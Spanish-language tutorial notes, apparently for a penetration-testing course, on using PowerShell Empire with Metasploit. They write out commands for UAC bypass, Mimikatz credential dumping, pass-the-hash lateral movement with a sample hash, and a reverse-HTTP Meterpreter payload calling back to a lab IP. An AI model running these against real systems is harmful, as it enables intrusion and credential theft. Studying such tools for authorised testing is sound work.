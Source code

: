 # Powershell Empire

Propietario: Adrian Gisbert Cabello

### 1. Introducción a PowerShell Empire

PowerShell Empire es una herramienta de post-explotación que se enfoca en la explotación del lado del cliente y la post-explotación de despliegues de Active Directory (AD). Utiliza PowerShell en Windows y Python en Linux y macOS, apoyándose en bibliotecas y características preinstaladas .

### 2. Instalación y Configuración

1. **Clonar el repositorio y ejecutar el script de instalación:**
    
    ```bash
    cd /opt
    sudo git clone https://github.com/PowerShellEmpire/Empire.git
    cd Empire/
    sudo ./setup/install.sh
    ```
    
2. **Iniciar Empire:**
    
    ```bash
    sudo ./empire
    ```
    
3. **Comandos básicos en la consola de Empire:**
    
    ```
    help              # Mostrar el menú de ayuda
    listeners         # Interactuar con listeners activos
    usestager         # Utilizar un stager de Empire
    agents            # Interactuar con agentes activos
    ```
    

### 3. Listeners y Stagers

- **Crear un listener:**
    
    ```
    (Empire) > uselistener http
    ```
    
- **Configurar y ejecutar un stager:**
    
    ```
    (Empire: listeners) > usestager windows/launcher_bat
    (Empire: stager/windows/launcher_bat) > set Listener http
    (Empire: stager/windows/launcher_bat) > execute
    ```
    

### 4. Uso de Agentes

- **Visualizar agentes activos:**
    
    ```
    (Empire: agents) > agents
    ```
    
- **Interactuar con un agente:**
    
    ```
    (Empire: agents) > interact <agent_name>
    ```
    
- **Ejecutar comandos en el agente:**
    
    ```
    (Empire: <agent_name>) > sysinfo
    ```
    

### 5. Módulos de PowerShell Empire

### 5.1. Situational Awareness

- **Enumeración de usuarios en Active Directory:**
    
    ```
    (Empire: <agent_name>) > usemodule situational_awareness/network/powerview/get_user
    (Empire: powershell/situational_awareness/network/powerview/get_user) > execute
    ```
    

### 5.2. Escalada de Privilegios

- **Ejecutar todos los chequeos de PowerUp para identificar vulnerabilidades de escalada de privilegios:**
    
    ```
    (Empire: <agent_name>) > usemodule privesc/powerup/allchecks
    (Empire: powershell/privesc/powerup/allchecks) > execute
    ```
    
- **Bypass de UAC con `bypassuac_fodhelper`:**
    
    ```
    (Empire: <agent_name>) > usemodule privesc/bypassuac_fodhelper
    (Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http
    (Empire: powershell/privesc/bypassuac_fodhelper) > execute
    ```
    

### 5.3. Mimikatz en Empire

- **Ejecutar Mimikatz para extraer contraseñas de sesión:**
    
    ```
    (Empire: <agent_name>) > usemodule credentials/mimikatz/logonpasswords
    (Empire: powershell/credentials/mimikatz/logonpasswords) > execute
    ```
    

### 5.4. Movimiento Lateral

- **Usar `invoke_smbexec` para movimiento lateral:**
    
    ```
    (Empire: <agent_name>) > usemodule lateral_movement/invoke_smbexec
    (Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName client251
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d87aa966c327
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
    (Empire: powershell/lateral_movement/invoke_smbexec) > execute
    ```
    

### 6. Uso Conjunto de Empire y Metasploit

- **Generar un payload de Meterpreter:**
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -f exe -o met.exe
    ```
    
- **Configurar un listener en Metasploit:**
    
    ```
    msf5 > use multi/handler
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
    msf5 exploit(multi/handler) > set LPORT 7777
    msf5 exploit(multi/handler) > set LHOST 10.11.0.4
    msf5 exploit(multi/handler) > exploit
    ```
    
- **Subir y ejecutar el payload desde Empire:**
    
    ```
    (Empire: <agent_name>) > upload /path/to/met.exe
    (Empire: <agent_name>) > shell met.exe
    ```
    

### 7. Ejercicios Prácticos

1. **Instalar y configurar PowerShell Empire en Kali Linux.**
2. **Crear un listener y un stager, y ejecutar el stager en una máquina Windows para obtener un agente activo.**
3. **Usar módulos de Empire para enumeración, escalada de privilegios y movimiento lateral.**
4. **Combinar Empire y Metasploit para ejecutar payloads y obtener sesiones Meterpreter.**
